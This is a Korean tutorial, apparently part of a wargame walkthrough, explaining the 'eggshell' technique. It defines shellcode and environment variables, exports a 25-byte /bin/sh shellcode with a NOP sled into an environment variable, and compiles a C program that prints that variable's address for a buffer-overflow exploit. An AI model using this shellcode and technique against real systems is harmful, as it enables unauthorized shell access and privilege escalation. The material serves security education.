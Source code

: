 즉, 기계어로 만든 코드를 메모리에 로드시키고 그시작주소를 알려주는 일종의 툴이라고 할 수 있다.




환경변수가 쉘코드를 감싸고 있는 느낌(like계란껍질)이라 에그쉘이라는 이름이 붙었다. 

(쉘코드, 환경변수 등 처음 듣는 단어가 많아서 아직 이해하기 어려울수도 있으니까 아래의 설명을 읽고 다시 보면 이해가 될 것이다.)  




#### * 쉘코드(ShellCode)란 ?

**shellCode**는 "**/bin/bash**"나 "**/bin/sh**"를 실행시켜주는 코드이다. 

이 코드는 C로 소스를 만들고 약간의 가공을 거쳐서 기계어로 만들어진 결과물을 16진수의 코드로 사용하는 것이다. 

결과적으로 이야기하자면 쉘의 호출이 실행 가능한 프로그램을 코드로 만들어 필요할 때 호출하는 것이다. 

이것을 호출하는 방법은 다양하지만 이번에는 사용할 shellCode를 구글링해서 하나 빌려오도록 하자. 

(25바이트 길이의 쉘코드를 가져왔다.)




#### * 환경변수란 ? 

프로세스가 컴퓨터에서 동작하는 방식에 영향을 미치는 동적인 값들의 모임이다. 

쉽게 말하자면 사용자가 자주 사용하는 정보를 저장하여 이용하기 편리하게 해주는 것이다.  

// printenv 명령어를 통해 현재 설정되어있는 환경변수들을 출력해볼 수 있다.




그럼 이제 문제풀이 흐름을 따라가보자. 

우선 export 명령어를 통해 25바이트짜리 쉘코드를 환경변수로 등록해주고 (이름은 간단히 SHELL로 지음)

> export SHELL=`python -c 'print "\x90"*90+ "\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"'`




임시 저장 디렉터리(tmp)에서 vi편집기로 아래 소스를 입력, 저장하고 나온다. 

//난 파일 이름을 egg.c로  저장했다.

(코딩을 하기 전 편집기에서 " :set paste -> i " 를 해주면 자동으로 들여쓰기가 돼서 편리하다.)

> #include <stdio.h>
>
> int main(){
> 	printf("SHELLCODE addr is %p\n", getenv("SHELL"));
> 	return 0;
> }

이것은 환경변수의 주소를 불러오는 소스이다. 앞서 쉘코드를 환경변수로 등록했기 때문에 이 파일을 컴파일한 뒤 실행하면 쉘 주솟값이 출력된다.  

컴파일 및 파일 실행은 다음과 같이 할 수 있다. 

> $ gcc -o egg egg.c 
>
> $ ./egg
